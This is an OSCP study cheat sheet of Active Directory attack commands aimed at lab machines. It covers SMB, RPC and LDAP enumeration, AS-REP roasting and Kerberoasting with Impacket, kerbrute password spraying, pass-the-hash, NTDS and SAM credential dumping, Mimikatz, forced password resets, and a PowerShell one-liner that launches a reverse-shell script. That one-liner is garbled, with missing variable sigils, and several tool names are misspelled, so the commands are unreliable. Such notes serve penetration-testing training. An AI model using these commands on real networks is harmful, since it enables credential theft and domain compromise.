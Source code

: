 # Active Directory Resources
## XMind
Great resource for a logical flow of what to do with various conditions based on access, position, information, etc.

For the OSCP, I used this resource, which is no longer on the interwebs: https://web.archive.org/web/20220607072235/https://www.xmind.net/m/5dypm8/#
But the XMind file (`Pentesting_Active_directory.xmind`) file is in the `enum` directory to view with XMind thick client.


## Good IPpsec Videos/Other Resources
Good videos and HTB/Vulnhub boxes to review
- Active
- Blackfield
- Kerbrute
- Impacket - `GetNPUsers.py`
    - `rpcclient` to set the users password
    - `secretsdump.py` - with NTDS
    - `psexec.py`
    - `wmiexec.py` - (Doesn't drop you to system)

### Injecting Kerberos Tickets into Linux
https://0xeb-bp.com/blog/2019/11/21/practical-guide-pass-the-ticket.html

Sources
- https://musyokaian.medium.com/vulnnet-roasted-tryhackme-walkthrough-a239fb05d032
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Active Directory Attack.md#most-common-paths-to-ad-compromise

# AD Enumeration
This list is far from exhaustive, and a tad bit disorganized, as I collected these commands during my OSCP prep. There is both overlap and some gaps between the commands listed in the XMind content and the content below.
## Initial Foothold
- Try to enumerate OS version by nmap scan - look at DNS version
- Add hostnames to `/etc/hosts`
- do `nslookup` (set server DC.IP.AD.DR; try your own loopback (127.0.0.1 for accuracy (should get localhost), then try DNS server) )
- if get timeout, do dnsrecon
    - `dnsrecon -d 10.10.10.100 -r 10.0.0.0/8`

### List SMB Shares/Files
- `smbclient -N -L //10.10.10.01/` - should've already done this from autorecon, but doesn't hurt
- `crackmapexec smb 10.10.10.01 -u guest -p "" --shares` - will show if shares are readable
- `crackmapexec smb 10.10.10.01 -u guest -p "" -M spider_plus` - Spider Shares to see files present 

## Username/SID Enumeration
### RPCClient
Rppclient should've been run by autorecon, but just in case
- `rpcclient -U "" 10.10.10.10` - then `enter` for null password
    - alternatively `rpcclient -U "" -N 10.10.10.10`
- If `rpcclient` session is established: `$> enumdomusers`

### LookupSID
- `lookupsid targetdomain.local/guest@10.10.10.10`
- `lookupsid.py username:password@172.21.0.0`
- lots of output, can find usernames by grep -i user

### Other Impacket Goodies
- `GetNPUsers.py targetdomain.local/ -no-pass -usersfile users.txt -dc-ip`
- find users that are SREP-roastable, aka user doesn't require creds to request TGT from KDCstrong text

### Download Files Via SMB
Can download file found on smb share with `smbmap -R SHARENAME -H IP.ADDR.0.0 -A Filename -q`
-R = recursive
-H host
-A - Define a file name pattern (regex) that auto downloads a file on a match (requires -R or -r), not case sensitive, ex '(web|global).(asax|config)'
- Can recursively get files with smbclient `smbclient //10.10.10.100/Replication`, and the following commands (mind your local directory before executing):
    - `recurse ON`
    - `prompt OFF`
    - `mget *`

### Ldap Enumeration
- `ldapsearch -x -h 10.10.10.10 -b base namingcontext`
    - if there is an error message of a successful bind must be completed on the connection, then anonymous access to LDAP is disabled
- Anonymous Credential LDAP Dumping: `ldapsearch -LLL -x -H ldap:// -b ‘’ -s base ‘(objectclass=*)’`
- `windapsearch`: https://github.com/ropnop/windapsearch
    - `python3 windapsearch.py -d host.domain -u domain\ldapbind -p PASSWORD -U`

### Password Crack
- GPP Decrypt (gpp-decrypt) to decrypt Group Policy Preferences String

## Enumerate Creds/Username
### Username Mutation
1. Username Mutation Tool: https://github.com/PinkDraconian/CTF-bash-tools
    - `ctf-wordlist-names.sh names-file`
    - script outputs content to: `formatted_name_wordlist.txt`
2. Add usernames like `Administrator` and `guest`
3. Take usernames and then use `kerbrute`
- `kerbrute userenum -d domain.local --dc 10.10.10.01 formatted_name_wordlist.txt --downgrade`
- Password Spray with kerbrute: `kerbrute passwordspray -d domain.local -dc 10.10.10.01 formatted_name_wordlist.txt 'Winter2020!'`

### If you Have Creds
- GetADUsers.py (part of impacket) - `GetADUsers.py -all active.htb/svc_tgs -dc ip 10.10.10.100`
- Impacket PSexec command if you have credentials: `psexec.py active.htb/svc_tgs@10.10.10.100`
- Revisit `smbmap` with `-u`, `-d`, and `-p` flags
- `GetUsersSPNs.py - GetUsersSPNs.py -request -dc-ip IP AD active.ht/svc_tgs:pwd`

### CME (Crackmap Exec)
- PW Authentication: `crackmapexec smb 10.10.10.10 -u username -p "password"`
- List Shares: `crackmapexec smb 10.10.10.10 -u username -p "password" --shares`

### Impacket (w/Creds)
- All commands below allow -hashes flag to specify a NTLM hash
    - `psexec domain/username@10.10.10.10`
    - `wmiexec domain/username@10.10.10.10`
    - `wmiexec domain/username@10.10.10.10 -hashes`
- If user is in Admin group, can dump entire SAM database: `secretsdump domain/username@10.10.10.10`
- `secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin`

### If you need Access
- Have you tried psexec.py with your credentials?

### Bloodhound Tip/Windows Tip
- `runas /netonly /user:active.htb\svc_tgs cmd`
    - Then prompted for password
    - Will launch new cmd

### Mimikatz Tips
- Make sure to run version 2.1 and newest version
- `Invoke-Mimikatz`
- `Invoke-Kerberoast`


# Powershell Reference
Set password of different user:
- `$pass = ConvertTo-SecureString 'Password' -AsPlainText -Force`
- `Set-DomainUserPassword Herman -AccountPassword $pass -verbose`

Change domain password:
- `$pass = ConvertTo-SecureString 'Password' -AsPlainText -Force`
- `$cred = New-Object System.Management.Automation.PSCredential('Domain\Username', $pass)`
- `powershell -nop -ep bypass -command `

Powershell One-liner:
- `p='CrabSharkJellyfish192';$c=convertTo-SecureString -AsPlainText -Force p;p;c=new-object system.management.automation.pscredential(u,u,c);Invoke-Command -ComputerName 127.0.0.1 -Credential $c -ScriptBlock { powershell.exe -nop -ep bypass C:\inetpub\wwwroot\Invoke-PowerShellTcp.ps1 }`